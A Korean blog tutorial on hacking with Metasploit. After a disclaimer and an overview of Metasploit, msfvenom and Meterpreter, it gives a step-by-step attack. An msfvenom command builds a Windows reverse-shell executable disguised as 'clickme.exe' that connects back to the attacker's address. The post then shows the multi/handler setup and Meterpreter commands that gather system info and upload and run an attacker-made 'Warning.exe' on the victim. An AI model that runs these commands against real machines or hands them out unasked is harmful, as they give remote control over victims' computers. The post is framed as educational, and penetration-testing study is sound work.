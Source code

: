 ```yaml
---
layout: post
title: Metasploit Meterpreter를 이용한 해킹 실습
categories: Tool
tags: Metasploit
---
```

# 목차
&nbsp;&nbsp;<a href="#{{ 1| downcase }}">1. Disclaimer</a><br>
&nbsp;&nbsp;<a href="#{{ 2| downcase }}">2. Metasploit, msfvenom, meterpreter 란</a><br>
&nbsp;&nbsp;<a href="#{{ 3| downcase }}">3. PoC</a><br>
&nbsp;&nbsp;<a href="#{{ 4| downcase }}">4. 공격 코드 설명</a><br>
- - -
  
<h1 id="{{ 1| downcase }}">1. Disclaimer</h1>
<font color='red'>
All the content shown in this post is only for educational purposes. Any misuse of this content is completely at your own risk.<br>
Do not try to attempt to break laws or do any illegal stuff by using this.<br><br>

이 포스트에서 보여지는 모든 컨텐츠는 교육적인 목적으로만 제작되었습니다. 해당 컨텐츠를 오용한 결과는 전적으로 오용한 본인 책임입니다.<br>
이 포스트에서 다루는 내용을 이용해 불법적인 일을 저지르려고 하지 마십시오.
</font>
- - -
<h1 id="{{ 2| downcase }}">2. Metasploit, msfvenom, meterpreter 란</h1>
## – Metasploit
메타스플로잇 프로젝트란 취약점 분석과 IDS 서명 개발 보조기구 등에 대한 정보를 제공하는 것을 목적으로 하고 있습니다. 2007년 루비에 의하여 재구조된 후, 2009년 10월 21일 Rapid7이라는 통일 취약성 관리 솔루션을 제공하는 보안 회사에 인수되었습니다.

칼리 리눅스에 메타스플로잇이 기본으로 설치되어있고, 실제로 직접 metasploit-framework 의 모듈 폴더를 보면 탑재된 모듈이 루비로 작성되어있다는 것을 확인할 수 있습니다.


메타스플로잇은 위와 같이 msfbinscan, msfconsole, msfd, msfdb, msfelfscan, msfmachscan, msfpescan, msfremove, msfrop, msfrpc, msfrpcd, msfupdate, msfvenom 이란 프로그램들로 구성되어 있습니다.  
여기서 ~scan이란 이름의 프로그램들은 익스플로잇 도구를 제작할 때 쓰이는 도구이고, 대부분 메타스플로잇을 사용한다고 하면 msfconsole이란 콘솔 커맨드라인 인터페이스를 의미합니다. msfconsole은 메타스플로잇의 대부분의 기능을 지원합니다.

## – msfvenom
위의 프로그램 중에 msfvenom이란 이름의 프로그램이 있습니다. 메타스플로잇의 커맨드라인 인스턴스로써 다양한 쉘 코드를 생성할 수 있습니다.  
예로, 공격자의 ip와 포트번호를 삽입하여 희생자 windows pc의 쉘을 따내는 프로그램을 제작하는데 사용됩니다.

## – meterpreter
메타스플로잇 공격은 주로 msfconsole -> search -> use -> info -> show options -> set -> exploit -> meterpreter 순으로 진행이 됩니다.  
여기서 미터프리터는 in-memory DLL인젝션을 사용한 페이로드로써, 최종적으로 희생자 pc의 exploit에 성공해서 미터프리터 세션이 맺어져 쉘 권한을 획득해 직접 희생자 pc에 명령을 내릴 수 있게 네트워크를 유지시켜줍니다.
- - -
<h1 id="{{ 3| downcase }}">3. PoC</h1>
{% include youtube_embed.html id="G-3jJCqQ_m8" %}
- - -
<h1 id="{{ 4| downcase }}">4. 공격 코드 설명</h1>
{% highlight text %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.xxx.xxx LPORT=7777 -f exe -o clickme.exe
{% endhighlight %}
msfvenom을 이용해 페이로드(-p)로 윈도우즈 미터프리터 리버스 커넥션을 맺습니다. 여기서 리버스 커넥션이란, 외부에서 내부로 들어오는 inbound 트래픽은 방화벽에서 막지만, 그 반대인 outbound 트래픽의 경우 대부분은 허용해주는 것을 이용해 내부망에서 외부망으로 거꾸로 접속을 하도록하는 쉘코드를 의미합니다.  
LHOST는 공격자 아이피이고 LPORT는 공격자 임의의 포트로 설정합니다.  
포맷(-f)은 exe로 윈도우즈 실행 프로그램이며, clickme.exe 형태로 페이로드를 저장합니다.

{% highlight text %}
msf5 > use exploit/multi/handler
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > set lhost 192.168.xxx.xxx
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > set lport 7777
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > exploit
{% endhighlight %}
익스플로잇을 하고 희생자 pc에서 clickme.exe를 클릭하면 리버스 커넥션이 맺어졌다는 메시지와 함께 미터프리터 세션이 열렸다는 메시지를 받게 됩니다.

{% highlight text %}
meterpreter > sysinfo
{% endhighlight %}
미터프리터 세션을 이용해 희생자 pc의 시스템 정보를 알아냅니다.

{% highlight text %}
meterpreter > upload Warning.exe
{% endhighlight %}
Warning.exe라는, 공격자가 만들어낸 윈도우즈 실행파일을 희생자 pc에 업로드 시킵니다.

{% highlight text %}
meterpreter > execute -f Warning.exe
{% endhighlight %}
공격자가 임의로 Warning.exe를 실행시킵니다.
